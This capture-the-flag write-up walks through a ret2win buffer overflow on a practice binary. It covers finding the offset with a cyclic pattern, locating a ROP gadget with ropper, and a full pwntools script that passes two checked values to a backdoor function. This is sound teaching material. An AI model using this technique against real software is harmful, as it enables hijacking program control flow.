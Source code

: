 # Ret2Win V1

*Solved by: Logs*

This is a buffer overflow to the win(backdoor) function with key ckecks
Decompiling the binary

The challenge() function
 
![image](https://github.com/user-attachments/assets/c5a2af60-c0c2-484e-bcd5-2b16776c0140)

The first part asks us a question “Would You like to give any feeback” and our input local_d goes through a string compare, which compares it to the string “yes”. We give “yes” as the first input and the the feedback() function is called.


feedback()
 
![image](https://github.com/user-attachments/assets/908a6014-f9ad-4428-8d5e-f07e94fd1251)


The feedback function ask for another input using the read function which accepts a total of 96 bytes
0x60 = 96. 
And the function we are trying to get into, the backdoor() function

backdoor()

 ![image](https://github.com/user-attachments/assets/57031cf2-fff6-43bb-8974-6d0ecddd8780)


From here on I just attempted to try a buffer overflow, first finding the offset to the $rsp register. 
I load binary up in gdb-gef, the generate an string length of 100 with “pattern create 100”. 
Next I use ran the program, and gave it the first input “yes”, then the second input will be the pattern of 100 strings create. Which then overflowed the buffer. 

 ![image](https://github.com/user-attachments/assets/379321c0-b674-4f1e-8c34-551bff0a98a5)


With this I was able to get the offset for the overflow.


I also noticed a function in the binary called helper() Which looked like this. 
 
![image](https://github.com/user-attachments/assets/c86427ff-6529-41a9-a641-4b1c769226ca)

This will be helpful I crafting out solve script because, after overwriting the return address to the backdoor, the backdoor will also perform a check on two parameters, with values
```0xdead``` and ```0xbeef``` respectfully

Using ropper on the binary
```
ropper -f ret2win1 --search='pop rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ret2win1
0x0000000000401358: pop rdi; pop rsi; ret; 
0x00000000004014e3: pop rdi; ret;
```

So we have to load the values ```0xdead``` and ```0xbeef``` into ```0x0000000000401358: pop rdi; pop rsi; ret;```


Have all that now we write our solve script. 
```
python
from pwn import *
# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg

continue
'''.format(**locals())

# Binary filename
exe = './ret2win1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 56
io.sendline('yes')
# pop_rdi = p64(0x4014e3)  # Address of 'pop rdi; ret'
# pop_rsi_r15 = p64(0x4014e1)  # Address of 'pop rsi; pop r15; ret'

pop_rdi_rsi = p64(0x401358)

param_1 = 0xdead # First parameter
param_2 = 0xbeef  # Second parameter

payload = flat({
    offset: [
        pop_rdi_rsi,  # Pop the next value to RDI
        param_1,  # Pop the next value to RSI (and junk into R15)
        param_2,
        p64(elf.sym['backdoor'])
    ]
})

io.sendline(payload)
io.interactive()
```
Running the script we got the flag

